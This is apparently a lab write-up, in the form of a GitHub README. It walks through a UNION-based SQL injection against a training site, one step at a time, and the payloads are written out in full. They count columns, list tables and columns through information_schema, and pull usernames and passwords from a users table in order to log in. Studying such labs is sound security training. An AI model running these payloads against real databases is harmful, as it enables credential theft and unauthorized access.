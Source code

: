 # SQL-injection-attack-listing-the-database-contents-on-non-Oracle-databases

> # (1)To know the existing columns: 'ORDER BY 3--. Here 2 columns available
![image](https://user-images.githubusercontent.com/59218362/208476549-b40cdd56-df00-4681-a958-54a093025ed9.png)
![image](https://user-images.githubusercontent.com/59218362/208476733-22483735-1286-41e0-ac91-a76ce976a663.png)

> # (2) To check which column are retrieving data: 'UNION SELECT 'Data','Data'--. Here, both column are retrieve data
![image](https://user-images.githubusercontent.com/59218362/208477336-fcde6832-f402-497f-8729-d8593209df14.png)

> # (3) To know all table name: 'UNION SELECT NULL,table_name FROM information_schema.tables—
![image](https://user-images.githubusercontent.com/59218362/208478333-c92a1fb3-4bf1-467b-935a-37f25b2519e7.png)

> # (4)To know the column name from the user table: 'UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_aqgopn'--
![image](https://user-images.githubusercontent.com/59218362/208482817-d0d7005d-a384-496a-bed8-1def3f6dbc92.png)

> # (5) Finally to get the credential: 'UNION SELECT username_srwnte, password_vbrkvq FROM users_aqgopn--
![image](https://user-images.githubusercontent.com/59218362/208484286-fc6c3460-ff6c-4f2a-b95e-755a74f09b9c.png)

> # (6) Login with credential
